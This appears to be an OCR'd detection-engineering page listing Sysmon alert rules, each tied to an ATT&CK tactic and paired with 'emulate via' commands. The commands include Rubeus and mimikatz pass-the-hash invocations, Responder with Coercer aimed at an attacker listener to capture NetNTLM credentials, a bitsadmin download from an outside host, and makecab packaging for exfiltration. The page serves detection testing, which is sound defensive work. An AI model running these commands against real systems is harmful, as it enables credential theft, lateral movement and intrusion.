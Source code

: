 ```Exclude normal accounts here```

Emulate via cli/Reubeus.exe

Rubeus.exe asktgt /domain:igntie.local /user:Administrator /rc4: 32196b56ffe6f45e294117b91a83bf38 /ptt

sysmon_detect_pass_the_hash_rc4
Alert to detect Pass the hash attempts to laterally move in Windows environment

Reference: https://www.cobaltstrike.com/blog/how-to-pass-the-hash-with-mimikatz/

Emulate via mimikatz

# After using the hashdump via mimikatz
mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:"powershell -w hidden"
TA0009 Collection
Adversary-in-the-Middle
LLMNR/NBT-NS Poisoning and SMB Relay
sysmon_detect_excessive_anonymous_network_logon
Alert for detection of Excessive Anonymous Logon Events indicative of coercsion (e.g. via Coercer)

Reference: https://github.com/p0dalirius/Coercer

# Launch Responder as listener on local listener interface (e.g. eth0)
rm /usr/share/responder/Responder.db; responder -I eth0 --analyze

# Clone Coercer repository locally and install necessary deps. Then, Invoke Coercer on target (e.g. DC) to receive the machine account NetNTLM credentials
python3 Coercer.py -d $DOMAIN --listener $ATTACKER_IP --target $TARGET
TA0010 Command and Control
Application Layer Protocol
DNS
sysmon_detect_lolbin_network_connection
Alert to detect network connections from Windows LOLBIN

Note: This alert should be baselined to exclude connections from binaries to domains that are expected in the environment

Emulate via cmd/bitsadmin

bitsadmin /transfer hackingarticles http://www.cnn22.com/ignite.png c:\ignite.png
Ingress Tool Transfer
sysmon_detect_filetransfer_makecab
Alert to detect use of Lolbin makecab.exe for Exfiltration

Reference: https://posts.slayerlabs.com/living-off-the-land/

Emulate via cmd

makecab /d CabinetNameTemplate=enum_results.cab /D DiskDirectoryTemplate=C:\ProgramData /f C:\ProgramData\mca.txt

